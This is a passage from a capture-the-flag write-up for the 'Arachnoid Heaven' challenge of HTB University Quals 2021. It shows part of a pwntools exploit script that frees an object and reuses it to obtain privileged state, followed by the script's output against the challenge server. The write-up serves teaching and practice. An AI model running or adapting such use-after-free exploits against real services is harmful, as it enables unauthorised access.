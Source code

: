 ```
	target.sendline(name)

def delete_arachnoid(index):
	print(target.recvuntil(b'>'))
	target.sendline(b'2')
	print(target.recvuntil(b'Index:'))
	target.sendline(index)
def view_arachnoid():
	print(target.recvuntil(b'>'))
	target.sendline(b'3')

def obtain_arachnoid(index):
	print(target.recvuntil(b'>'))
	target.sendline(b'4')
	print(target.recvuntil(b'Arachnoid:'))
	target.sendline(index)
	
craft_arachnoid(b'hello')

delete_arachnoid(b'0')
view_arachnoid()

craft_arachnoid(b'sp1d3y')

view_arachnoid()
obtain_arachnoid(b'0')

target.interactive()
```
And here is what it looks like when you run the script:
```
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21$ python3 arachnoid_writeup.py 
[+] Opening connection to 64.227.38.214 on port 30311: Done
b'\xf0\x9f\x95\xb8\xef\xb8\x8f \xf0\x9f\x95\xb7\xef\xb8\x8f  \x1b[1;6;34mWelcome to Arachnoid Heaven!\x1b[0m \xf0\x9f\x95\xb7\xef\xb8\x8f \xf0\x9f\x95\xb8\xef\xb8\x8f\n\n     \xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\n     \xf0\x9f\x94\xa9                        \xf0\x9f\x94\xa9\n     \xf0\x9f\x94\xa9  1. Craft  arachnoid   \xf0\x9f\x94\xa9\n     \xf0\x9f\x94\xa9  2. Delete arachnoid   \xf0\x9f\x94\xa9\n     \xf0\x9f\x94\xa9  3. View   arachnoid   \xf0\x9f\x94\xa9\n     \xf0\x9f\x94\xa9  4. Obtain arachnoid   \xf0\x9f\x94\xa9\n     \xf0\x9f\x94\xa9  5. Exit               \xf0\x9f\x94\xa9\n     \xf0\x9f\x94\xa9                        \xf0\x9f\x94\xa9\n     \xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\n\n>'
b' \nName:'
b' Arachnoid Index: 0\n\n\n     \xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\n     \xf0\x9f\x94\xa9                        \xf0\x9f\x94\xa9\n     \xf0\x9f\x94\xa9  1. Craft  arachnoid   \xf0\x9f\x94\xa9\n     \xf0\x9f\x94\xa9  2. Delete arachnoid   \xf0\x9f\x94\xa9\n     \xf0\x9f\x94\xa9  3. View   arachnoid   \xf0\x9f\x94\xa9\n     \xf0\x9f\x94\xa9  4. Obtain arachnoid   \xf0\x9f\x94\xa9\n     \xf0\x9f\x94\xa9  5. Exit               \xf0\x9f\x94\xa9\n     \xf0\x9f\x94\xa9                        \xf0\x9f\x94\xa9\n     \xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\xf0\x9f\x94\xa9\n\n>'
b' Index:'
```